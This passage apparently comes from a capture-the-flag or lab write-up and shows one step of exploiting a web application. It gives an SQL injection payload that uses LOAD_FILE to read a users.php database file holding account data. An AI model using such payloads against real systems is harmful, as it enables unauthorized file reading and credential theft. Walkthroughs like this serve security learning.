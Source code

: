 ![28](screenshots/28.png)

However, they were inaccessible then. Since I can now read files with SQLi, let's check them out:

`test" union all select 1,2,LOAD_FILE('var/www/html/news/bl-content/databases/users.php'),4 #`

![29](screenshots/29.png)
